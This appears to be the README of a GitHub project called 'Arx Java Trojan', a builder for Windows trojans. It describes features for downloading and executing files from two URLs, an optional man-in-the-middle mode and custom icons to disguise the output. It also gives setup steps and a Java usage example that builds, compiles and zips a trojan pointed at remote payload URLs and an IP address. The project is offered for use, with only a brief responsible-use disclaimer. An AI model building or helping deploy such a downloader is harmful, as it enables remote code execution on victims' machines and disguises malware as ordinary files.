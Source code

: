# Arx Java Trojan

- This project is designed to create a Trojan software that can download and execute files from specified URLs. 
- It is developed in Java and compiled to run in a Windows environment using AutoIt.

## Features

- Ability to download and execute files from two URLs.
- Optional creation of a temporary file for man-in-the-middle (MITM) attacks.
- Icon customization feature to add a specific icon to the compiled file.
- Packaging of the generated file into a ZIP archive.

## Requirements

- Java JDK
- [Wine](https://www.winehq.org/) (to run Windows applications)
- [AutoIt](https://www.autoitscript.com/site/autoit/downloads/) and the `Aut2exe` tool

## Installation

1. **Install Requirements:**
   - Install Java JDK and Wine on your system.
   - Download and install AutoIt, noting the path to `Aut2exe`.

2. **Clone the Project:**
   ```bash
   git clone https://github.com/archescyber/Arx-Java-Trojan/

3. **Prepare Necessary Files:**
   Place the appropriate icon files in the icons directory.



# Usage

You can use the Trojan class to create a Trojan. Below is an example:

`
Trojan trojan = new Trojan("http://example.com/file1.exe", "http://example.com/file2.exe", "path/to/icon.ico", "outputFile.exe", "your.ip.address");
trojan.create(true); // Set to true for MITM mode
trojan.compile(); // Compile the AutoIt code
trojan.zip("outputFile.exe"); // Create a ZIP archive
`
# Notes

Ensure that you have permission to download and execute files from the specified URLs.

Use this project responsibly and in compliance with applicable laws and regulations.

# Contribution
I would like to thank my friend Rovaniq for contributing to this project.

Feel free to contribute to the project by submitting issues or pull requests. All contributions are welcome!

For communication, you can send feedback to my Instagram account named **@yusuf.cyw**
